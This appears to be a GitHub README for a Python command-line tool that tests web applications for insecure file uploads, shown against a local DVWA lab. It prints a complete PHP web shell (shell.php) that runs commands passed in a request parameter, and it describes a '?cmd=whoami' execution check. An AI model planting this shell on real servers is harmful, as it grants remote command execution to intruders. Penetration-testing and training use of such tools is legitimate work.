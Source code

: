 # File Upload Vulnerability Tester (CLI Tool)

## 📝 Overview
This is a simple yet effective CLI tool built in Python to detect **insecure file upload vulnerabilities** in web applications. It simulates the upload of a payload (like `shell.php`) to a target URL and checks if the file is accessible and potentially executable.

Useful for:
- Bug bounty hunters
- Web application testers
- CTF learners
- Anyone practicing ethical hacking

## 📁 Repository Structure
```
file-upload-vuln-tester/
├── upload_tester.py          # Main CLI tool
├── shell.php                 # Sample test payload
├── requirements.txt          # Required Python packages
├── README.md                 # Project documentation
├── screenshots/              # Proof of exploitation
│   ├── tool_run.png
│   ├── browser_rce.png
│   └── dvwa_form.png
```

## ⚙️ Requirements
- Python 3.x
- requests

Install dependencies:
```bash
pip install -r requirements.txt
```

## 🚀 Usage
```bash
python3 upload_tester.py <upload_url> <file_path> --base <base_url>
```

### Example:
```bash
python3 upload_tester.py http://localhost/DVWA/vulnerabilities/upload/ shell.php --base http://localhost/DVWA/hackable/
```


## 🧠 How It Works
1. Sends a POST request with a test file
2. Checks common upload folders for the file (uploads/, files/, etc.)
3. Verifies file access and optional RCE using `?cmd=whoami`

## 🔐 Sample Payload (shell.php)
```php
<?php
if(isset($_REQUEST['cmd'])){
  system($_REQUEST['cmd']);
}
?>
```
> Upload this to simulate a remote shell

## 💡 Why This Project?
- Helps automate a real-world vulnerability test
- Trains for bug bounty methodology
- Demonstrates scripting and scanning skills

## 🛡️ Disclaimer
This tool is for **educational and ethical testing only**. Do not use it on systems you do not own or have explicit permission to test.

## 👨‍💻 Author
[Your Name Here]
Feel free to connect with me on LinkedIn or contribute to the tool!

## 📜 License
MIT License

